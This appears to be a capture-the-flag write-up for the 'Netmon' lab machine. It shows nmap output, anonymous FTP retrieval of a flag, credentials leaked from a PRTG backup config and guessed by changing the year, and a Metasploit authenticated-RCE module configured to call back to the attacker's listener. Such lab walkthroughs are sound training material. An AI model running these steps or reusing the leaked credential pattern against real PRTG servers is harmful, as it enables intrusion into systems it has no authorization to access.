 # Netmon (10.10.10.152 -windows)
## Writeup by Hexachroma

1. nmap -sC -sV -oN nmap/init 10.10.10.152 -v 
```
21/tcp  open  ftp          Microsoft ftpd                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd                          
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)           
| 02-03-19  08:08AM       <DIR>          Users                         
|_02-25-19  11:49PM       <DIR>          Windows           
| ftp-syst:                                                            
|_  SYST: Windows_NT                                                   
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)                                                         
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479  
| http-methods:                                                        
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm 
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

2. Enumerating FTPuser to get juicy user.txt
>	`get C:\Users\public\user.txt`

3. Looking at the webserver and found out PRTG NETMON is installed
>	Stumble upon official documentation and learn that this app stores old config data
>	Using FTP to reach and download the conf
>	
>	![](docs/ftp.png)

4. Open the xml bak file
>	Found possible cred
>	
>	![](docs/cred.png)

5. Try FTP with prtgadmin:PrTg@dmin2018
>	Failed

6.	Lets get back to login page (netmon.htb/index.htm)
>	Using prtgadmin:PrTg@dmin2018 and fail
>	Using prtgadmin:PrTg@dmin2019 Success!
>	
>	![](docs/loginpage.png)

7.	find further vulnerability in current version
>	![](docs/vuln.png)

8. 	searchsploit current version
>	![](docs/searchsploit.png)

9.	using metasploit 
>	`use exploit/windows/http/prtg_authenticated_rce`
>>	`set admin_password PrTg@dmin2019`
>>>	`set RHOST $IP`
>>>>	`set LHOST tun0`
>>>>>	`set LPORT 9001`
>>>>>>	run
>	![](docs/rce.png)
